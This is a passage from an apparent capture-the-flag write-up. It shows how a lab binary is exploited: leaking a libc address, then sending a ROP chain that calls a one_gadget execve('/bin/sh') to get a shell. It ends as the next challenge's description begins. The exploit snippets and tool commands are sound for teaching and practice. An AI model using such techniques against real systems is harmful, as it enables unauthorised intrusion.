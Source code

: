     ![](https://imgur.com/y4TJSWo.png)

2. Try to leak `libc` offset - `write` function + `gdb`
We can observe stack situation before sending payload. The first 3\*8 bytes are garbage bytes that we filled at first round.
![](https://imgur.com/Dm0nZBn.png)
    ```python!
    r.recv(0x18)
    libc_addr = u64(r.recv(6) + b'\x00\x00') - 0x24083 + 0x7
    ```
    Skip garbage bytes first then receive 6 bytes. Note that `- 0x24083 + 0x7` is try and error so that it can be `0x7f07a24fb00`(temp) checked by `vmmap`.
    ![](https://imgur.com/igQeoUJ.png)

3. Construct `one_gadget`
Use `vmmap` to check which `libc` version be used - <font color="FF0000">`/lib/x86_64-linux-gnu/libc-2.31.so`</font>
![](https://imgur.com/2hTs3o4.png)
    ```bash!
    $ one_gadget /lib/x86_64-linux-gnu/libc-2.31.so
    ...
    0xe3afe execve("/bin/sh", r15, r12)
    constraints:
      [r15] == NULL || r15 == NULL
      [r12] == NULL || r12 == NULL
    ...
    $ ROPgadget --binary /lib/x86_64-linux-gnu/libc-2.31.so --only "pop|ret" --multibr > one_gadget
    $ vim one_gadget
    ```
    ```python!
    pop_r15_ret = libc_addr + 0x2a3e4
    pop_r12_ret = libc_addr + 0x2f709
    r.send(p64(0) * 3 + p64(pop_r12_ret) + p64(0) + p64(libc_addr+0xe3afe))
    ```
    <font color="FF0000">Note that</font> `$r15` has NULL already before `read` function, so it's no need to send `pop_r15_ret`.
    ![](https://imgur.com/SK0U7Mn.png)
4. Then we got shell!!!
![](https://imgur.com/3zRhmUG.png)


#### Reference
[gdb指令](https://lu-yi-hsun.github.io/posts/reverse/gdb/#dwarf)
[Linux中誰來呼叫C語言中的main?](http://wen00072.github.io/blog/2015/02/14/main-linux-whos-going-to-call-in-c-language/)
[Docker exec 命令](https://www.runoob.com/docker/docker-exec-command.html)
### how2know_revenge
#### Description
* Challenge: `nc edu-ctf.zoolab.org 10012`
* Environment Version: Ubuntu 20.04
* Folder structure:
    ```
    Share
    ├── share
    │   ├── chal
    │   ├── flag
    │   ├── Makefile
    │   ├── how2know_revenge.c
    │   └── run.sh
    ├── docker-compose.yaml